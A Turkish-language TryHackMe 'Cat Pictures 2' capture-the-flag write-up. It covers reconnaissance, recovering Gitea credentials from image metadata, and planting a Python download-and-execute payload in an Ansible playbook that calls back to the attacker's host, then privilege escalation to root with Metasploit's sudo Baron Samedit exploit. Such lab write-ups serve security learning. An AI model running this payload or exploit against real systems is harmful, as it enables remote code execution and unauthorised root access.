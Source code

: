 ```yaml
---
title: 'TryHackMe | Cat Pictures 2 WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ansible, gitea, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_cat_pictures2/
image:
  path: logo.webp
---
```


## Özet

Cat Pictures 2, gitea servisinde paylaşılmış bir ansible dosyasını çalıştıran, kolay seviye bir linux makinedir. Exiftool aracılığıyla bulduğumuz kullanıcı bilgilerini kullanarak gitea servisine giriş yapacak ve paylaşılan tek repo içerisindeki playbook.yaml dosyasına reverse shell komutumuzu yapıştıracağız. Bağlantı sonrasında ise `baron samedit` exploitinden yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.224.169
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 03:12 EDT
Nmap scan report for 10.10.224.169
Host is up (0.091s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 ve 8080 numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı portun incelenmesi

![](1.webp){: width="1000" height="500" }

Ana sayfada kedilerin bulunduğu bir albüm var. Albümdeki resimleri incelerken bir resmin açıklamasında meta verilerini kontrol etmem gerektiği ile ilgili bir yazı ile karşılaştım.

![](2.webp){: width="1200" height="600" }

Exiftool ile dosyanın meta verilerini çıkardığımızda "title" parametresinin içerisinde 8080 numaralı HTTP servisinde bulunan bir dosya yolunu gösterdiğini görüyoruz.

```console
$ exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
...
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
...
```

Bu dosyanın içerisinde ise kullanıcı bilgileri ile beraber gitea uygulamasının ve üzerinde paylaşılmış olan bir uygulamanın bulunduğu port numarası yer alıyor.

```console
$curl 10.10.224.169:8080/764efa883dda1e11db47671c4a3bbd9e.txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: ****
password: ****

ansible runner (olivetin): port 1337
```

### 3000 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Verilen kullanıcı bilgileri ile gitea uygulamasına giriş yaptıktan sonra kullanıcının repolarını görmek için profil sayfasına gittim. Burada `ansible` adında bir repo bulunuyor. İçerisinde ise bulmamız gereken bayraklardan biri ve bir playbook.yaml dosyası bulunuyor. playbook.yaml dosyasının içeriğini aşağıda görüyorsunuz.

```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

### 1337 numaralı portun incelenmesi

![](4.webp){: width="1200" height="600" }

Burada bir takım işler yapabileceğimiz ve yaptığımız işlerin kayıtlarını görüntüleyebileceğimiz bir uygulama bulunuyor.

![](5.webp){: width="1000" height="500" }

## Sömürü aşaması

1337 numaralı portta çalışan uygulamada ki `run ansible` seçeneği büyük ihtimalle 3000 numaralı portta çalışan gitea sayfasındaki ansible dosyasındaki playbook.yaml dosyasını çalıştırıyor. Bu dosyanın komut çalıştırıldığı yere shell alabileceğimiz bir komut girer ve 1337 numaralı porttaki `run ansible` butonuna tıklarsak shell alabiliriz. Öncelikle dosyayı düzenleyelim.

```yaml
---
- name: Test
  hosts: all                                  # Define all the hosts
  remote_user: bismuth
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: python3 -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://10.21.66.61:8080/n9trzcfCpQLzCS', context=ssl._create_unverified_context());exec(r.read());"
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Dosyayı düzenledikten sorna 1337 numaralı porta dönüyor ve `run ansible` butonuna tıklıyoruz. Bir kaç saniye içinde komut çalıştırılıyor ve bağlantımızı alıyoruz.

![](6.webp){: width="1200" height="600" }

## Yetki yükseltme

### root

Sistemdeki zafıylıkları tespit etmek için metasploitte bulunan `linux exploit suggester` modülünü kullanacağım.

```console
(Meterpreter 1)(/home/bismuth) > run post/multi/recon/local_exploit_suggester
 1   exploit/linux/local/ansible_node_deployer                           Yes                      The target appears to be vulnerable. ansible playbook executable found
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 6   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.1.4
 7   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
 9   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1 is vulnerable, but unable to
```

Tarama sonucunda sistemde bir çok zafiyetin barındığını öğreniyoruz. İlk baştaki `ansible_node_deployer` eploitini önermesinin sebebi biraz önce düzenlemiş olduğumuz playbook.yaml dosyası olabilir. Onu görmezden gelip diğer exploitleri kullanarak yetki yükseltmeye çalışalım.

```console
[msf](Jobs:2 Agents:1) exploit(linux/local/sudo_baron_samedit) >> exploit
[*] Started reverse TCP handler on 10.21.66.61:4003 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
[*] Using automatically selected target: Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)
[*] Writing '/tmp/OJAAkP.py' (763 bytes) ...
[*] Writing '/tmp/libnss_Hcwd/DJ .so.2' (548 bytes) ...
[*] Sending stage (3045380 bytes) to 10.10.224.169
[+] Deleted /tmp/OJAAkP.py
[+] Deleted /tmp/libnss_Hcwd/DJ .so.2
[+] Deleted /tmp/libnss_Hcwd
[*] Meterpreter session 2 opened (10.21.66.61:4003 -> 10.10.224.169:59382) at 2025-03-24 03:56:49 -0400

(Meterpreter 2)(/tmp) > cd /root
(Meterpreter 2)(/root) > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
...
100644/rw-r--r--  33    fil   2022-11-07 14:26:43 -0500  flag3.txt
(Meterpreter 2)(/root) > cat flag3.txt 
6d2***971
```

Exploitlerin bir çoğu eksik araç veya yetki yüzünden çalışmadı. Ancak `sudo_baron_samedit` exploiti ile yetki yükseltebildim.
